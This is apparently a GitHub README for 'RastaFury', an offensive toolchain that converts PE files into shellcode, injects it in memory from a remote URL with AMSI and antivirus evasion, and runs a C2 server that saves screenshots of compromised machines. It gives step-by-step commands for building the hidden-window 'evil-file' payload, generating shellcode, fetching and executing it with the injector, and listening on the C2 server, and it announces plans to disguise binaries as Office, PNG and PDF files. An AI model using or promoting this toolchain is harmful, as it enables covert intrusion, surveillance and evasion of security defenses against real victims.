 # RastaFury

a tool for create ShellCodes from PE, based on go-donut([Binject](https://github.com/Binject/go-donut)); updated, improved and with new functionalities.
This tool works on Windows, Linux and MacOs, only need to change you compilation technique.

##Treefile
```powershell
C:.
│   .gitignore
│   go.mod
│   go.sum
│   LICENSE
│   main.go
│   README.md
│
│
├───c2server
│       helpers.go
│       router.go
│       server.go
│
├───cmd
│       c2server.go
│       injector.go
│       root.go
│       ShellCodeGenerator.go
│
└───donut
        donut.go
        donut_crypt.go
        donut_crypto_test.go
        loader_exe_x64.go
        loader_exe_x86.go
        types.go
        utils.go
```

##USAGE
**Note:** *this tool is intended to work in conjunction with the [ShellCodeInjector](https://github.com/RachidMoysePolania/ShellCodeInjector) library, in which you can find the default payload to be used with the *C2SERVER* command, which will be loaded into memory and executed by syscalls using kernel32.dll from windows (applying *AMSI* and *AV* evasion techniques).*
1. need to compile the payload (using default payload would be in this way): `go build -ldflags -H=windowsgui main.go` **Note:** *before compile the evil-file you need update the url and port to match with your c2server url and port.*
2. to generate a shellcode from a PE file use the following command: `shellcodegenerator -i <evil-file-path> -o <output-file-name>(by default is defaultc2client.bin)` this command is intended to use the default payload provided by ShellCodeInjector library at [here](https://github.com/RachidMoysePolania/ShellCodeInjector/blob/main/payload/main.go)
3. use the injector command, only need to provide the url (the complete url of where the shellcode to download is located): `injector -u "http://127.0.0.1:8000/defaultc2client.bin` and at the same time a new window must be opened, in order to listen to the c2 server.
4. listening to the c2server: `c2server -p <port-to-listen>(by default 8080)`

**Note:** *where the compiled shellcodegenerator binary is stored, screenshots of the compromised machine will be saved every interaction.*

##Example video
[!PocVideo](/media/PoC.mkv)

**Note:** *The next features are camuflage for our compiled binaries (word, excel, png, pdf, etc), graphic version and process injection* 